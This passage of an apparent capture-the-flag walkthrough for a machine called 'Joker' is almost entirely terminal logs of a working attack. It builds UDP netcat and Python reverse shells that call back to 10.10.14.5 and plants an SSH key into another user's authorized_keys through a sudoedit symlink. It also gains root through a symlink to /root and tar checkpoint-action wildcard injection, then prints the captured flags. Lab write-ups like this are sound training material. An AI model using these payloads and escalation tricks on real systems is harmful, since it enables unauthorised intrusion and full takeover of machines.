IyBHZW5lcmF0ZWQgYnkgaXB0YWJsZXMtc2F2ZSB2MS42LjAgb24gRnJpIE1heSAxOSAxODowMToxNiAyMDE3CipmaWx0ZXIKOklOUFVUIERST1AgWzQxNTczOjE4Mjk1OTZdCjpGT1JXQVJEIEFDQ0VQVCBbMDowXQo6T1VUUFVUIEFDQ0VQVCBbODc4OjIyMTkzMl0KLUEgSU5QVVQgLWkgZW5zMzMgLXAgdGNwIC1tIHRjcCAtLWRwb3J0IDIyIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBlbnMzMyAtcCB0Y3AgLW0gdGNwIC0tZHBvcnQgMzEyOCAtaiBBQ0NFUFQKLUEgSU5QVVQgLWkgZW5zMzMgLXAgdWRwIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBlbnMzMyAtcCBpY21wIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBsbyAtaiBBQ0NFUFQKLUEgT1VUUFVUIC1vIGVuczMzIC1wIHRjcCAtbSBzdGF0ZSAtLXN0YXRlIE5FVyAtaiBEUk9QCkNPTU1JVAojIENvbXBsZXRlZCBvbiBGcmkgTWF5IDE5IDE4OjAxOjE2IDIwMTcK
root@kali:~/joker#
root@kali:~/joker# base64 -d iptablesb64.txt
# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017
root@kali:~/joker#
```

[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.5 8900 >/tmp/f
```

``iptables`` show that they allow all ``udp`` traffic so add the ``-u`` flag to ``nc``

```sh
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.5 8900 >/tmp/f &").read()
```

```sh
root@kali:~/joker# nc -u -nlvp 8900
listening on [any] 8900 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.21] 51239
/bin/sh: 0: can't access tty; job control turned off
$
```

[``Upgrading from netcat with magic``](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method3upgradingfromnetcatwithmagic)

```sh
root@kali:~/joker# nc -u -nlvp 8900
listening on [any] 8900 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.21] 51239
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
werkzeug@joker:~$ ^Z
[1]+  Stopped                 nc -u -nlvp 8900
root@kali:~/joker# echo $TERM
xterm-256color
root@kali:~/joker# stty -a
speed 38400 baud; rows 24; columns 80; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>;
eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R;
werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk brkint ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff
-iuclc -ixany imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt
echoctl echoke -flusho -extproc
root@kali:~/joker# stty raw -echo
root@kali:~/joker# nc -u -nlvp 8900
                                   reset

werkzeug@joker:~$ export SHELL=bash
werkzeug@joker:~$ export TERM=xterm
werkzeug@joker:~$ stty rows 24 columns 80
```

###### Privilege Escalation - SymLink

```sh
werkzeug@joker:~$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
werkzeug@joker:~$
```

```sh
werkzeug@joker:~$ dpkg -l sudo
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version      Architecture Description
+++-==============-============-============-=================================
ii  sudo           1.8.16-0ubun amd64        Provide limited super user privil
werkzeug@joker:~$
```

```sh
root@kali:~/joker# searchsploit sudoedit

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
(Tod Miller's) Sudo/SudoEdit 1.6.9p21/1.7.2p4 - Local Privilege Escalation                                                                                          | exploits/multiple/local/11651.sh
Sudo 1.8.14 (RHEL 5/6/7 / Ubuntu) - 'Sudoedit' Unauthorized Privilege Escalation                                                                                    | exploits/linux/local/37710.txt
SudoEdit 1.6.8 - Local Change Permission                                                                                                                            | exploits/linux/local/470.c
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/joker#
```

```sh
werkzeug@joker:~$ cd testing/
werkzeug@joker:~/testing$ mkdir kan1shka
werkzeug@joker:~/testing$ cd kan1shka/
werkzeug@joker:~/testing/kan1shka$ ln -s /home/alekos/.ssh/authorized_keys layout.html
werkzeug@joker:~/testing/kan1shka$ ln -s /home/alekos/.ssh/authorized_keys
werkzeug@joker:~/testing/kan1shka$ ls -l
total 0
lrwxrwxrwx 1 werkzeug werkzeug 33 Jan 25 23:25 authorized_keys -> /home/alekos/.ssh/authorized_keys
lrwxrwxrwx 1 werkzeug werkzeug 33 Jan 25 23:05 layout.html -> /home/alekos/.ssh/authorized_keys
werkzeug@joker:~/testing/kan1shka$
```

```sh
root@kali:~/joker# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/joker/ssh_key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/joker/ssh_key.
Your public key has been saved in /root/joker/ssh_key.pub.
The key fingerprint is:
SHA256:Bz68s1TfDM3KCYgr2tzBNIe5SpMsvIbPN1ahtNygk3s root@kali
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|                 |
|        .        |
|    o .* o   o   |
|   = =*.S + . o  |
| .+.++o= = + *   |
| .oo*.= +   = o  |
|..oBE= o o       |
| o=++.. .        |
+----[SHA256]-----+
root@kali:~/joker#
root@kali:~/joker# cat ssh_key.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9yASaRlGgPUU9AegIqH6L0S2d4KaKZaqNgiVPphIX99ccfHdFu+xLKNZxJH/lWk2XMgO7UvIIVPdhqh+M9E9wUx9/QNgWpajxNZ5a2qX9c++sf4dyc4wYSNjyyLS0QgEns+JYhYRqXMM7jNr87vBvI6i3zHdmCd/rqjR2AkAb8CKiC1fwvMPJg4tTe2sCB2V4zdJAyaaZTCXxk+SADibhSLwa5di0mZNcmZbfG5Y2lcwB60oqlrM2xvau7nnAkHE+rbA4P5xnmC1oL3Njsuox555Q+H5TzY1AJZYa0KBNhok4xdysVTCaL8NAXiCrsOzWqgYKIHZCDK+3J675TtbX root@kali
root@kali:~/joker#
```

```sh
werkzeug@joker:~/testing/kan1shka$ sudoedit -u alekos /var/www/testing/kan1shka/layout.html

Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9yASaRlGgPUU9AegIqH6L0S2d4KaKZaqNgiVPphIX99ccfHdFu+xLKNZxJH/lWk2XMgO7UvIIVPdhqh+M9E9wUx9/QNgWpajxNZ5a2qX9c++sf4dyc4wYSNjyyLS0QgEns+JYhYRqXMM7jNr87vBvI6i3zHdmCd/rqjR2AkAb8CKiC1fwvMPJg4tTe2sCB2V4zdJAyaaZTCXxk+SADibhSLwa5di0mZNcmZbfG5Y2lcwB60oqlrM2xvau7nnAkHE+rbA4P5xnmC1oL3Njsuox555Q+H5TzY1AJZYa0KBNhok4xdysVTCaL8NAXiCrsOzWqgYKIHZCDK+3J675TtbX root@kali

werkzeug@joker:~/testing/kan1shka$
```

```sh
werkzeug@joker:~/testing/kan1shka$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9yASaRlGgPUU9AegIqH6L0S2d4KaKZaqNgiVPphIX99ccfHdFu+xLKNZxJH/lWk2XMgO7UvIIVPdhqh+M9E9wUx9/QNgWpajxNZ5a2qX9c++sf4dyc4wYSNjyyLS0QgEns+JYhYRqXMM7jNr87vBvI6i3zHdmCd/rqjR2AkAb8CKiC1fwvMPJg4tTe2sCB2V4zdJAyaaZTCXxk+SADibhSLwa5di0mZNcmZbfG5Y2lcwB60oqlrM2xvau7nnAkHE+rbA4P5xnmC1oL3Njsuox555Q+H5TzY1AJZYa0KBNhok4xdysVTCaL8NAXiCrsOzWqgYKIHZCDK+3J675TtbX root@kali
werkzeug@joker:~/testing/kan1shka$
```

```sh
root@kali:~/joker# ssh -i ssh_key alekos@10.10.10.21
The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$ ls -l
total 20
drwxrwx--- 2 root   alekos 12288 Jan 25 23:25 backup
drwxr-x--- 5 alekos alekos  4096 May 18  2017 development
-r--r----- 1 root   alekos    33 May 19  2017 user.txt
alekos@joker:~$ 
```

```sh
alekos@joker:~$ cd backup/
alekos@joker:~/backup$ ls -l
total 560
-rw-r----- 1 root alekos 40960 Dec 24 18:50 dev-1514134201.tar.gz
-rw-r----- 1 root alekos 40960 Dec 24 18:55 dev-1514134501.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 22:30 dev-1516912202.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 22:35 dev-1516912501.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 22:40 dev-1516912801.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 22:45 dev-1516913101.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 22:50 dev-1516913401.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 22:55 dev-1516913701.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 23:00 dev-1516914001.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 23:05 dev-1516914301.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 23:10 dev-1516914601.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 23:15 dev-1516914901.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 23:20 dev-1516915201.tar.gz
-rw-r----- 1 root alekos 40960 Jan 25 23:25 dev-1516915501.tar.gz
alekos@joker:~/backup$ tar xvf dev-1514134201.tar.gz
__init__.py
application.py
data/
data/shorty.db
models.py
static/
static/style.css
templates/
templates/layout.html
templates/not_found.html
templates/list.html
templates/display.html
templates/new.html
utils.py
views.py
alekos@joker:~/backup$
```

```sh
alekos@joker:~$ cd development/
alekos@joker:~/development$ ls -l
total 28
-rw-r----- 1 alekos alekos 1452 May 18  2017 application.py
drwxrwx--- 2 alekos alekos 4096 May 18  2017 data
-rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
-rw-r----- 1 alekos alekos  997 May 18  2017 models.py
drwxr-x--- 2 alekos alekos 4096 May 18  2017 static
drwxr-x--- 2 alekos alekos 4096 May 18  2017 templates
-rw-r----- 1 alekos alekos 2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos 1748 May 18  2017 views.py
alekos@joker:~/development$
```

```sh
alekos@joker:~$ mv development/ development.bak
alekos@joker:~$ ln -s /root/ development
alekos@joker:~$ ls development
ls: cannot open directory 'development': Permission denied
alekos@joker:~$
```

```sh
alekos@joker:~$ ls -l development
lrwxrwxrwx 1 alekos alekos 6 Jan 25 23:48 development -> /root/
alekos@joker:~$
```

```sh
alekos@joker:~/backup$ ls -l
total 772
-rw-r----- 1 alekos alekos  1452 May 18  2017 application.py
drwxrwx--- 2 alekos alekos  4096 May 18  2017 data
-rw-r----- 1 root   alekos 40960 Dec 24 18:50 dev-1514134201.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 24 18:55 dev-1514134501.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 22:30 dev-1516912202.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 22:35 dev-1516912501.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 22:40 dev-1516912801.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 22:45 dev-1516913101.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 22:50 dev-1516913401.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 22:55 dev-1516913701.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:00 dev-1516914001.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:05 dev-1516914301.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:10 dev-1516914601.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:15 dev-1516914901.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:20 dev-1516915201.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:25 dev-1516915501.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:30 dev-1516915801.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:35 dev-1516916101.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:40 dev-1516916401.tar.gz
-rw-r----- 1 root   alekos 40960 Jan 25 23:45 dev-1516916701.tar.gz
-rw-r----- 1 root   alekos 10240 Jan 25 23:50 dev-1516917001.tar.gz
-rw-r----- 1 root   alekos 10240 Jan 25 23:55 dev-1516917301.tar.gz
-rw-r----- 1 alekos alekos     0 May 18  2017 __init__.py
-rw-r----- 1 alekos alekos   997 May 18  2017 models.py
drwxr-x--- 2 alekos alekos  4096 May 18  2017 static
drwxr-x--- 2 alekos alekos  4096 May 18  2017 templates
-rw-r----- 1 alekos alekos  2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos  1748 May 18  2017 views.py
alekos@joker:~/backup$ tar xvf dev-1516917301.tar.gz
backup.sh
root.txt
alekos@joker:~/backup$
```

###### Privilege Escalation - Tar Checkpoint

```sh
alekos@joker:~$ ls -l
total 20
drwxrwx--- 2 root   alekos 12288 Jan 26 00:30 backup
drwxr-x--- 5 alekos alekos  4096 May 18  2017 development
-r--r----- 1 root   alekos    33 May 19  2017 user.txt
alekos@joker:~$
```

```sh
alekos@joker:~$ cd development/
alekos@joker:~/development$ ls -l
total 28
-rw-r----- 1 alekos alekos 1452 May 18  2017 application.py
drwxrwx--- 2 alekos alekos 4096 May 18  2017 data
-rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
-rw-r----- 1 alekos alekos  997 May 18  2017 models.py
drwxr-x--- 2 alekos alekos 4096 May 18  2017 static
drwxr-x--- 2 alekos alekos 4096 May 18  2017 templates
-rw-r----- 1 alekos alekos 2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos 1748 May 18  2017 views.py
alekos@joker:~/development$
```

```sh
alekos@joker:~/development$ ls *
application.py  __init__.py  models.py  utils.py  views.py

data:
shorty.db

static:
style.css

templates:
display.html  layout.html  list.html  new.html  not_found.html
alekos@joker:~/development$
```

```sh
alekos@joker:~/development$ touch -- -la
alekos@joker:~/development$
alekos@joker:~/development$ ls -l
total 28
-rw-r----- 1 alekos alekos 1452 May 18  2017 application.py
drwxrwx--- 2 alekos alekos 4096 May 18  2017 data
-rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
-rw-rw-r-- 1 alekos alekos    0 Jan 26 00:30 -la
-rw-r----- 1 alekos alekos  997 May 18  2017 models.py
drwxr-x--- 2 alekos alekos 4096 May 18  2017 static
drwxr-x--- 2 alekos alekos 4096 May 18  2017 templates
-rw-r----- 1 alekos alekos 2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos 1748 May 18  2017 views.py
alekos@joker:~/development$
alekos@joker:~/development$ ls
application.py  data  __init__.py  -la  models.py  static  templates  utils.py  views.py
alekos@joker:~/development$
alekos@joker:~/development$ ls *
-rw-r----- 1 alekos alekos 1452 May 18  2017 application.py
-rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
-rw-r----- 1 alekos alekos  997 May 18  2017 models.py
-rw-r----- 1 alekos alekos 2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos 1748 May 18  2017 views.py

data:
total 20
drwxrwx--- 2 alekos alekos  4096 May 18  2017 .
drwxr-x--- 5 alekos alekos  4096 Jan 26 00:30 ..
-rw-r--r-- 1 alekos alekos 12288 May 18  2017 shorty.db

static:
total 12
drwxr-x--- 2 alekos alekos 4096 May 18  2017 .
drwxr-x--- 5 alekos alekos 4096 Jan 26 00:30 ..
-rw-r----- 1 alekos alekos 1585 May 18  2017 style.css

templates:
total 28
drwxr-x--- 2 alekos alekos 4096 May 18  2017 .
drwxr-x--- 5 alekos alekos 4096 Jan 26 00:30 ..
-rw-r----- 1 alekos alekos  193 May 18  2017 display.html
-rw-r----- 1 alekos alekos  524 May 18  2017 layout.html
-rw-r----- 1 alekos alekos  725 May 18  2017 list.html
-rw-r----- 1 alekos alekos  624 May 18  2017 new.html
-rw-r----- 1 alekos alekos  231 May 18  2017 not_found.html
alekos@joker:~/development$
alekos@joker:~/development$ rm ./-la
```

[``Back To The Future: Unix Wildcards Gone Wild - Tar arbitrary command execution``](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)

- Using Python

```sh
alekos@joker:~/development$ touch -- --checkpoint=1
alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python shell.py'
alekos@joker:~/development$ ls -l
total 36
-rw-r----- 1 alekos alekos 1452 May 18  2017 application.py
-rw-rw-r-- 1 alekos alekos    0 Jan 26 00:34 --checkpoint=1
-rw-rw-r-- 1 alekos alekos    0 Jan 26 01:06 --checkpoint-action=exec=python shell.py
drwxrwx--- 2 alekos alekos 4096 May 18  2017 data
-rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
-rw-r----- 1 alekos alekos  997 May 18  2017 models.py
-rw-rw-r-- 1 alekos alekos  330 Jan 26 01:06 shell.py
-rwxrwxr-x 1 alekos alekos   93 Jan 26 00:55 shell.sh
drwxr-x--- 2 alekos alekos 4096 May 18  2017 static
drwxr-x--- 2 alekos alekos 4096 May 18  2017 templates
-rw-r----- 1 alekos alekos 2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos 1748 May 18  2017 views.py
alekos@joker:~/development$
```

```sh
alekos@joker:~/development$ nano shell.py
alekos@joker:~/development$ cat shell.py
#!/usr/bin/python
import subprocess
subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.14.5\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
alekos@joker:~/development$
```

```sh
root@kali:~# nc -u -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.21] 42229
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```

- Using Bash

```sh
alekos@joker:~/development$ touch -- --checkpoint=1
alekos@joker:~/development$ touch -- '--checkpoint-action=exec=sh shell.sh'
alekos@joker:~/development$ ls -l
total 36
-rw-r----- 1 alekos alekos 1452 May 18  2017 application.py
-rw-rw-r-- 1 alekos alekos    0 Jan 26 00:34 --checkpoint=1
-rw-rw-r-- 1 alekos alekos    0 Jan 26 01:15 --checkpoint-action=exec=sh shell.sh
drwxrwx--- 2 alekos alekos 4096 May 18  2017 data
-rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
-rw-r----- 1 alekos alekos  997 May 18  2017 models.py
-rw-rw-r-- 1 alekos alekos  330 Jan 26 01:06 shell.py
-rwxrwxr-x 1 alekos alekos   93 Jan 26 00:55 shell.sh
drwxr-x--- 2 alekos alekos 4096 May 18  2017 static
drwxr-x--- 2 alekos alekos 4096 May 18  2017 templates
-rw-r----- 1 alekos alekos 2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos 1748 May 18  2017 views.py
alekos@joker:~/development$
```

```sh
alekos@joker:~/development$ nano shell.sh
alekos@joker:~/development$ cat shell.sh
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.5 8086 >/tmp/f
alekos@joker:~/development$
alekos@joker:~/development$ sed 's/tmp\/f/tmp\/i/g' shell.sh -i
alekos@joker:~/development$ cat shell.sh
#!/bin/bash
rm /tmp/i
mkfifo /tmp/i
cat /tmp/i|/bin/sh -i 2>&1|nc -u 10.10.14.5 8086 >/tmp/i
alekos@joker:~/development$
alekos@joker:~/development$ chmod +x shell.sh
alekos@joker:~/development$
alekos@joker:~/development$ ls -l shell.sh
-rwxrwxr-x 1 alekos alekos 93 Jan 26 00:40 shell.sh
alekos@joker:~/development$
```

```sh
root@kali:~# nc -u -nlvp 8086
listening on [any] 8086 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.21] 56665
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

```sh
alekos@joker:~/backup$ cat root.txt
d452b7faf5fd5b30210f340ef1d4146e
alekos@joker:~/backup$
```

```sh
alekos@joker:~$ cat user.txt
a298121179fe93f2978d3337dbd7057b
alekos@joker:~$
```
